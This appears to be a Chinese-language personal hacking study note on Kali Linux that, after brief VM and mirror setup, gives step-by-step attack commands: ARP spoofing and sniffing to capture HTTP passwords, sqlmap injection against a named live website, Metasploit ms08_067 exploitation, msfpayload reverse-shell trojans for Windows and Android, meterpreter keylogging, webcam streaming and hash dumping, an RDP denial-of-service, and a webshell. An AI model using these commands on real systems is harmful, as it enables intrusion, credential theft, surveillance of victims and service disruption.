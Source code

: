 ##kali虚拟机常见的问题
在本机和虚拟机间的文件交互
- 
- 安装vmtool
- 先解压
- tar vxzf VMtool
- 然后启动vmware-tools


##kali的系统的更新
更新源
root@icunqiu:~# leafpad /etc/apt/sources.list
出现图形化界面
然后在里面加入阿里和中科的更新源
#中科大kali源
deb http://mirrors.ustc.edu.cn/kali sana main non-free contrib
deb http://mirrors.ustc.edu.cn/kali-security/ sana/updates main contrib non-free
deb-src http://mirrors.ustc.edu.cn/kali-security/ sana/updates main contrib non-free
#阿里云kali源
deb http://mirrors.aliyun.com/kali sana main non-free contrib
deb http://mirrors.aliyun.com/kali-security/ sana/updates main contrib non-free
deb-src http://mirrors.aliyun.com/kali-security/ sana/updates main contrib non-free

root@icunqiu:~# apt-get update

root@icunqiu:~# apt-get dist-upgrade

##kali的系统美化
KDE桌面安装
apt-get install kde-f



##开始使用kali
sqlmap：相当于win下面的名小子，NBSI

##局域网断网攻击也叫arp攻击
工具：arpspoof

指令：arpspoof -i 网卡 -t 目标ip 网关
kali：网卡 eth0
目标：192.168.31.239
默认网关 192.168.1.1

替换掉:arpspoof -i eth0-t 192.168.31.239  192.168.1.1
~# arpspoof -i eth0 -t 192.168.31.22  192.168.1.1

怎么看局域网当中的ip呢？
fping -asg 192.168.31.0/24

为什么断网现象是arp欺骗，却出现断网现象。

出现的错误：
arpspoof: couldn't arp for host
fping -asg 192.168.0.100/24     查看局域网中存活的主机

先ping一下目标主机，看是否ping得通

要攻击需要知到目标ip,网关（网关是啥？）,本机网卡（eth0）。

arpspoof -i eth0 -t 目标IP 网关

 


ps:如果出现arpspoof: couldn't arp for host ，要把虚拟机设置成桥接，或者关闭目标防火墙。


#ARP欺骗
目标的ip 流量会经过我的网卡，从网关出去
（进行ip流量转发）
#ARP断网
目标的ip 流量会经过我的网卡


##进行ip流量转发：
root@icunqiu:~# echo 1 >/proc/sys/net/ipv4/ip_forward
root@icunqiu:~#  vim /proc/sys/net/ipv4/ip_forward
echo ***>/proc/---不会有回显



###driftnet  -》》获取本机网卡的图片
目标的ip他的流量会经过我的网卡 ---》网关
driftnet -i eth0



#http账号密码获取
Arpspoof  -》》欺骗


ettercap----》》欺骗  嗅探 

ettercap -Tq -i eth0
-Tq  启动文本模式
即可监控该ip的http密码



##开启命令行模式
ctrl+alt+f1
/etc/init.d/ssh/  start  开启ssh
然后就可以用xshell连接了


##sststrip
能把https的链接还原为http

端口不一样前者80后者443
http+ssl构建的可进行加密传输





##注入php网站
- sqlmap -u "http://www.tmsyy.com/list.php?fid=3"
- 检测
- 
- 
- sqlmap -u "http://www.tmsyy.com/list.php?fid=3" --is-dba
- 检测是否是dba权限
- 
- sqlmap -u "http://www.tmsyy.com/bencandy.php?fid=168&id=7299" --dbs
- 列出所有的数据库
- 
- sqlmap -u "http://www.tmsyy.com/bencandy.php?fid=168&id=7299" --current-db
- 查询当前表
- 
- sqlmap -u "http://www.tmsyy.com/bencandy.php?fid=168&id=7299" --tables -D "ggec"
- 猜解数据库的表名  根据数据库 


    第一讲.Metasploit框架介绍
    第二讲.Metasploit升级更新
    第三讲.Metasploit端口扫描
    第四讲.Metasploit SMB 获取系统信息
    第五讲.Metasploit 服务识别
    第六讲.Metasploit 密码嗅探
    第七讲.Metasploit SNMP 扫描
    第八讲.Metasploit SMB登陆验证
    第九讲.Metasploit VNC身份识别
    第十讲.Metasploit WMAP Web扫描

##metasploit
输入msfconsole 
- Exploit模块 -》》漏洞利用
- Payloads   -》》shellcode

###使用模块
use exploit/windows/smb/ms08_67_netapi

##选择漏洞利用模块
show options
查看要填入的参数
set RHOST 192.168.31.1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST selfip
执行：exploit

##metasploit 执行远控
这个有教程：http://www.i0day.com/1173.html

1.根据自己的ip生成一个木马
我们的ip是192.168.102.136
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.102.136 LPORT=55555 X > abc.exe


2.use exploit/multi/handler
show options
set PAYLOAD　windows/meterpreter/reverse_tcp

使用这个shellcode
LHOST = 192.168.102.136
LPORT = 55555
这里填生成木马的ip和端口




#木马常用功能
background
sessions 1


##注入进程： 木马随时可能被结束
ps：得到我们要注入的进程
Migrate xxx注入
2036 2004 expoler.exe 这个进程是桌面

##远程桌面
Run vnc  开启远程桌面


##木马文件管理功能
- download     
- edit
- cat
- cd
- mkdir
- mv
- rm
- pwd
- upload
- rmdir


##网络及系统操作
Arp                看缓冲表
ifconfig           ip地址网卡 
getproxy           获取代理
netstat            查看端口链接

kill 结束进程
ps  查看进程
reboot 重启
Reg 修改注册表
shell 拿取shell
shutdown 关闭电脑
sysinfo 系统信息

##用户操作和其他功能讲解
enumdesktops    用户登录数目
keyscan_dump
keyscan_start
keyscan_stop
uictl
webcam_chat
webcam_list
webcam_stream
getsystem  获取高权限
hashdump   下载hash密文


##生成android木马
msfpayload android/meterpreter/reverse_tcp LHOST=192.168.102.136 R > Desktop/abc.apk

安装木马 然后开启exploit即可



##服务器蓝屏攻击
DDOS
服务器开启3389
确定目标  ip
MS12 020

我们服务器远程桌面的一个利用模块
auxliary/scanner/rdp/ms12_020_check
扫描主机是否存在漏洞

RHOST R 开头，远程主机 


目的：比ddos来的更直接一些，但是重启就解决了


##拿webshell
msfpayload webshell/meterpreter/reverse_tcp LHOST=192.168.102.136 R > Desktop/web.shell

安装木马 然后开启exploit即可